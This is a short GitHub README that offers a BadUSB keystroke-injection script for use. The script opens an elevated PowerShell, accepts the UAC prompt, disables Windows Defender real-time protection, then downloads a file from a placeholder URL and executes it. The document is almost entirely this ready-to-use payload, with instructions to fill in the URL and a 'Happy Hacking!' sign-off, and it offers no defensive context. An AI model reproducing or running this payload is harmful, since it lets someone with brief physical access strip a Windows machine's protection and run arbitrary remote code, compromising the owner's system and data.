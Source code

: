 # badusb-download-execute-disable-windows-defender
This is a Bad USB script which will download and execute any file from the web which is accessible from a direct download link and it will also disable Windows Defender Real Time Protection.

Here is the BadUSB script:
```
DELAY 1000
GUI r
DELAY 200
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 1000
ALT y
DELAY 500
STRING Set-MpPreference -DisableRealtimeMonitoring $true
ENTER
DELAY 200
STRING $down = New-Object System.Net.WebClient; $url = 'URL_GOES_HERE'; $file = 'FILE_NAME_OUTPUT'; $down.DownloadFile($url,$file); $exec = New-Object -com shell.application; $exec.shellexecute($file); exit;
ENTER
```

Make sure to change URL_GOES_HERE and FILE_NAME_OUTPUT on the script in order for this to work.
Happy Hacking!
